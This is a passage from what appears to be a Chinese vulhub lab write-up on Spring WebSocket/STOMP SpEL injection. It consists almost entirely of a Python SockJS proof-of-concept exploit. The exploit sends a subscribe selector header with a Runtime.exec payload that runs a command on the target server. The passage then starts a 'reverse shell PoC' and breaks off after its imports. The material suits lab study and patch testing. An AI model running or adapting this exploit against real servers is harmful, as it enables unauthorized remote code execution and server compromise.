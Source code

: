 ```python
    def run(self):
        url = f'{self.base}/htmlfile?c=_jp.vulhub'
        response = self.session.get(url, stream=True)
        for line in response.iter_lines():
            time.sleep(0.5)
    
    def send(self, command, headers, body=''):
        data = [command.upper(), '\n']

        data.append('\n'.join([f'{k}:{v}' for k, v in headers.items()]))
        
        data.append('\n\n')
        data.append(body)
        data.append('\x00')
        data = json.dumps([''.join(data)])

        response = self.session.post(f'{self.base}/xhr_send?t={self.t}', data=data)
        if response.status_code != 204:
            logging.info(f"send '{command}' data error.")
        else:
            logging.info(f"send '{command}' data success.")

    def __del__(self):
        self.session.close()


sockjs = SockJS('http://your-ip:8080/gs-guide-websocket')
sockjs.start()
time.sleep(1)

sockjs.send('connect', {
    'accept-version': '1.1,1.0',
    'heart-beat': '10000,10000'
})
sockjs.send('subscribe', {
    'selector': "T(java.lang.Runtime).getRuntime().exec('touch /tmp/success')",
    'id': 'sub-0',
    'destination': '/topic/greetings'
})

data = json.dumps({'name': 'vulhub'})
sockjs.send('send', {
    'content-length': len(data),
    'destination': '/app/hello'
}, data)
```

改动后反弹shell poc：

```python
#!/usr/bin/env python3
from asyncio.constants import LOG_THRESHOLD_FOR_CONNLOST_WRITES
import requests
import random
import string
import time
import threading
import logging
import sys
import json
import base64

logging.basicConfig(stream=sys.stdout, level=logging.INFO)

```
